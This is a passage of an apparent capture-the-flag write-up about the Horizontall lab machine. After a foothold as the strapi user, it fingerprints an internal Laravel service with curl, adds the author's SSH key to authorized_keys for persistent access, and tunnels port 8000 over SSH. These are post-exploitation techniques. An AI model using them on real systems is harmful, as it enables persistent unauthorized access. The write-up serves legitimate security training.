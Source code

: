 ```

strapi@horizontall:/home/developer$ curl -I 127.0.0.1:8000              
HTTP/1.1 200 OK
Host: 127.0.0.1:8000
Date: Mon, 02 Aug 2021 18:16:18 GMT
Connection: close
X-Powered-By: PHP/7.4.18
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Mon, 02 Aug 2021 18:16:18 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6Im5QaytzNHJqUkMwb1NCWlBYdFVkbnc9PSIsInZhbHVlIjoiaHRZWWRtaWh0SHpFZnNKL1kxS3BSbUxTVlRBNXk3SFlSdk1OZnNVM0kvTm9XQXdSUTV4VG5reGduY0NGdENIek9ocHgzVXJKOFhJa0k2VzlzUnJ5bXJOK1hMNEtJQ1R6cUZ1NFVwTUxkTHpmVjZTZDlwcXNXR1I2QVg1WWx5b2QiLCJtYWMiOiJlZjY3MjliZTRkODU5OTMwNGQxYTdhNmM5NzUxNzg3YjQ1ODBmMWExMTgyNWQ1ZTZlZDY0MmU5OWZhZTM5MWM0In0%3D; expires=Mon, 02-Aug-2021 20:16:18 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6IjhUbXZ2UXNnNm5UZ1Rvd24zbzB3WVE9PSIsInZhbHVlIjoiNHE3OFFXTzJ1akY2Vms3L3E5U2JRRzVBZW0veUlwNHYzTW9rNERsQkhzS05OdEEwa1RaSUxxZEZ6eWhJSE45OEFLYVJIK1lsN1U0cUlIV0JrUFA1QzZ3RXBPcVVHVVJzNEFvVWM0QThJRXNpZElQVTdGTllpVDVRMzBMTVQ4VlciLCJtYWMiOiIzYjZjZTY5NDM0Nzk4MmU2N2U4ZTUxN2ViYzI5ZjA2MjllYzE3OWZlZTFkZWVjZmQyYTYwMDAzNjViYWUzMWI5In0%3D; expires=Mon, 02-Aug-2021 20:16:18 GMT; Max-Age=7200; path=/; httponly; samesite=lax

```

And based on the response and the cookies, it looks like Laravel, a PHP framework.

#### Access Page

the strapi user’s home directory is `/opt/strapi`, I can still add a `.ssh` directory and an `authorized_keys` file. I’ll add my key:

```

strapi@horizontall:~$ mkdir .ssh
strapi@horizontall:~$ cd .ssh/
strapi@horizontall:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 

```

Now I can SSH to the box, and use that to tunnel port 8000 on my localbox to port 8000 on Horizontall:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen strapi@10.10.10.125 -L 8000:localhost:8000
...[snip]...
$

```

#### Page

Visiting the page with FireFox works now, but it’s just the default Laravel page:

![image-20210802142559157](https://0xdfimages.gitlab.io/img/image-20210802142559157.png)
